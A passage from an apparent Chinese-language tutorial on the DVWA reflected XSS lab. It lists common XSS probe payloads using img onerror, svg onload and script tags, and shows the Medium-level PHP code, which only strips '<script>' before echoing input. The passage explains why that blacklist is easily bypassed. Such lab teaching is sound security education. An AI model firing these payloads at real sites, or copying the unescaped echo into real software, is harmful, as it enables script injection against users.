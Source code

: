 `alert`语句没有分号也可以,对字符串可以使用`'`、`"`、`/`,例如

* `<script>alert(/xss/)</script>`
* `<script>alert("hello1");</script>`
* `<script>alert("hello1")</script>`

![Alt text](../src/XSS/1514130902315.png)

常用payload
```
<img src=1 onerror=alert(1)>
<svg onload=alert`1`>
<body/onload=alert(25)>
<script>confirm(1);</script>
<img src=1 onerror=prompt(1)//
<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
<script>eval(alert(1))</script>
<svg><script>prompt&#x28;1)</script> 
```
## Medium
### 核心代码
```
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```
可以看到，这里对输入进行了过滤，基于黑名单的思想，使用`str_replace`函数将输入中的`<script>`替换为空，这种防护机制是可以被轻松绕过的。
###  相关函数
**[str_replace](http://php.net/manual/zh/function.str-replace.php)**— 子字符串替换
